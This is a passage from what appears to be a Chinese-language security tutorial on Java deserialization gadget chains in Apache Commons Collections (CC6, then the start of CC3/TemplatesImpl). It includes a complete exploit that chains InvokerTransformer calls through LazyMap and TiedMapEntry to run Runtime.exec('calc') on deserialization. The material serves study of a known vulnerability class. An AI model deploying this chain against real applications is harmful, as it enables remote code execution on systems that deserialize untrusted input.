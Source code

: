 ![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4bafee074ceb7875912bef1e54f00a95b77a7992.png)​

那也就是说在put方法之后我们去把这个key给`remote`​掉就好了

最终exp

```java
 Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");
        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-9d469bb6431e86ca83fab14f32b61ce110cb3510.png)​

‍

CC3
===

‍

CC3其实后半段就是动态类加载，其实就是跟`Fastjson`​的&lt;=1.2.24的Jdk7u21链子是一样的，(因为我先学了fastjson)

TemplatesImpl链
--------------

‍

### `TemplatesImpl.TransletClassLoader#defineClass()`​​

因为要找`defineclass`​重写过的方法，所以这条链子的作者在`rt.jar`​中找到了defineClass `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.TransletClassLoader.defineClass()`​
